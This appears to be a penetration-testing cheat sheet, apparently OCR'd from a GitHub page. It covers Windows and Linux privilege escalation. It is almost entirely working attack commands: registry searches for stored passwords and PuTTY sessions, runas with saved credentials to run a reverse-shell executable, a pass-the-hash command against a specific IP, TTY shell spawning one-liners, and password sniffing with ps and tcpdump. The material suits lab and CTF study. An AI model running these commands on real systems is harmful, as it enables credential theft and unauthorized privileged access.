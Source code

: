 ```bash

### SNMP Parameters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

### Search for the password in the registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s
```

### RunAs - Savedcreds

```bash
cmdkey /list #Displays stored credentials looks for any optential users
#Transfer the reverseshell
runas /savecred /user:admin C:\Temp\reverse.exe
```

### Pass the Hash

```bash
#If hashes are obtained through some means, then use psexec and smbexec and obtain the shell as a different user.
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe
```

---

# Linux Privilege Escalation

- [Privesc through TAR wildcard](https://medium.com/@polygonben/linux-privilege-escalation-wildcards-with-tar-f79ab9e407fa)

## TTY Shell

```powershell
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
echo 'os.system('/bin/bash')'
/bin/sh -i
/bin/bash -i
perl -e 'exec "/bin/sh";'
```

## Basic

```bash
find / -writable -type d 2>/dev/null
dpkg -l #Installed applications on Debian system
cat /etc/fstab #Listing mounted drives
lsblk #Listing all available drives
lsmod #Listing loaded drivers

watch -n 1 "ps -aux | grep pass" #Checking processes for credentials
sudo tcpdump -i lo -A | grep "pass" #Password sniffing using tcpdump

```
